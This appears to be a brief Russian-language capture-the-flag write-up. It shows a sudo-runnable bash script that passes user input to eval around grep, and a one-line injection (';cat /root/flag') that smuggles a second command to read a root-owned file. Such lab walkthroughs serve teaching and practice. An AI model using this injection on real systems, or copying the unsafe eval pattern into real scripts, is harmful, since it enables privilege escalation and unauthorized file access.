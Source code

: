 Подключаемся к машине и видим что можем использовать скрипт с правами sudo
```
#!/bin/bash
 PATTERN="$1"
  eval "grep -r $PATTERN /var/log/"
```
eval принимает все команды поэтому можем добавить аргумент для выполнения новой команды
sudo log_search.sh ';cat /root/flag' (команда eval теперь выглядит "grep -r ; cat /root/flag /var/log")
забираем флаг